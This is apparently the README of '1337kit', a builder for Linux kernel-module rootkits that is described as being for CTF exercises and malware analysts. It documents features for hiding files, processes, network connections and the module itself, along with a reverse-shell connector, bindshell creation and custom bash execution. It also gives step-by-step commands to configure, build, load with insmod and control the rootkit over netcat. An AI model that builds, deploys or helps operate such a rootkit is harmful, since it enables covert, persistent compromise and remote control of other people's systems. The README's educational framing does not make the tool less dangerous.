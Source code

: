 # 1337kit - LKM Rootkit Builder

![1337kit](images/1337kit.png)

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

Fully tested on: Linux 5.11.0-34-generic 20.04.1-Ubuntu x86_64 x86_64 x86_64 GNU/Linux

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analysts and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Features

* RevShell based connector
* Hiding dents (files, files prefixes, process id)
* Hiding connections based on Ports in TCP Connection
* Hiding connections based on IPv4 in TCP Connection
* Spawning scripts to user-space
* Hiding module from module list

## Installation

Builder requirements:

```sh
$ pip3 install -r requirements.txt
```
Install requirements for building LKM:

```sh
sudo apt-get install build-essential linux-headers-$(uname -r)
```
## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector:
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_tcp_port:
    - "8080"
    - "1337"
hide_tcp_ip:
    - "127.0.0.1"
    - "8.8.8.8"
hide_udp_port:
    - "8080"
    - "1337"
hide_udp_ip:
    - "127.0.0.1"
    - "8.8.8.8"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --help
usage: builder.py [-h] [-c CONFIG] [-o [OBFUSCATE]]

Generate rootkit from yaml prescription

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG, --config CONFIG
                        Yaml prescription file
  -o [OBFUSCATE], --obfuscate [OBFUSCATE]
                        Enable rootkit symbols obfuscation

```

![builder](images/builder.png)

And rootkit will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_TCP_PORT
* SHOW_HIDDEN_TCP_PORT
* HIDE_TCP_IP
* SHOW_HIDDEN_TCP_IP
* HIDE_UDP_PORT
* SHOW_HIDDEN_UDP_PORT
* HIDE_UDP_IP
* SHOW_HIDDEN_UDP_IP
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Additional Information

tcp_seq_show.c file in hooker is pretty much same as udp_seq_show, but i split it if anyone need some own modification for either of protocols

## Future Features

* TCP and UDP IPv6 hiding
* Rootkit string encryption/obfuscation

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod rootkit.ko
$ nc -lvnp 8080
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
